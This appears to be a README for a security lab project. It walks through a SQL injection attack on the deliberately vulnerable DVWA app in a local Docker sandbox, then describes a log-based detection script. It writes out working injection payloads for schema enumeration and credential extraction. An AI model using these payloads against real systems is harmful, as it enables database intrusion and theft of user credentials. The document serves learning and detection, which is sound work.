









# SQL Injection Attack - DVWA (Low Security)

## Overview
A demonstration of SQL Injection attack against DVWA
(Damn Vulnerable Web App), performed locally in a Docker sandbox. This
project walks through the full attack chain, from confirming the
vulnerability to extracting live database credentials. I used the
application's built-in "User ID" search field.

## Environment
- DVWA (`vulnerables/web-dvwa`) running locally via Docker
- Security level: Low
- Database: MariaDB 10.1.26

## What is SQL Injection?
The application builds a database query by directly inserting raw user
input into a SQL statement, without validating or sanitizing it. Because
of this, a specially crafted input can change the *meaning* of the query
itself rather than just supplying a value, allowing an attacker to
manipulate what data the database returns.

## Attack Walkthrough

### 1. Confirming the vulnerability
Input: `1' OR '1'='1`

Result: returned all 5 users instead of just one, confirming the input
is inserted directly into the SQL query with no sanitization.

### 2. Determining column count
Used `1' ORDER BY 1-- -`, `2`, `3` to find the query breaks at column 3.
This confirms the underlying query returns 2 columns.

### 3. Confirming UNION injection
Input: `1' UNION SELECT 1,2-- -`

The literal values 1 and 2 were reflected back on the page, confirming
a working UNION-based injection point.

### 4. Database recon
Input: `1' UNION SELECT database(), @@version-- -`

Revealed the database name (`dvwa`) and server version
(MariaDB 10.1.26).

### 5. Enumerating tables and columns
Input: `1' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema=database()-- -`

Found two tables: `guestbook` and `users`.

Input: `1' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users'-- -`

Mapped the full structure of the `users` table: `user_id`, `first_name`,
`last_name`, `user`, `password`, `avatar`, `last_login`, `failed_login`.

### 6. Extracting credentials
Input: `1' UNION SELECT user, password FROM users-- -`

Retrieved all 5 usernames and their MD5 password hashes.

### 7. Detection: log-based SQLi signature matching
To complement the offensive side, I wrote a Python script (`detect_sqli.py`)
that scans the DVWA/Apache access log and flags requests matching common
SQL injection signatures like UNION SELECT, information_schema access,
always-true conditions, comment sequences, and ORDER BY probing.

The script URL decodes each request before pattern matching, since raw
logs store payloads encoded (e.g. `%27` instead of `'`), which would
otherwise hide attacks from naive text search.

Running it against the log generated during this attack correctly
flagged all 10 malicious requests, with severity ranked by signature
type (credential-extraction UNION queries as HIGH, reconnaissance
probing as MEDIUM).

## Impact
This attack chain demonstrates that an unauthenticated user could fully
enumerate the database schema and extract every stored user credential
using only the application's search field, with no additional tools
required.

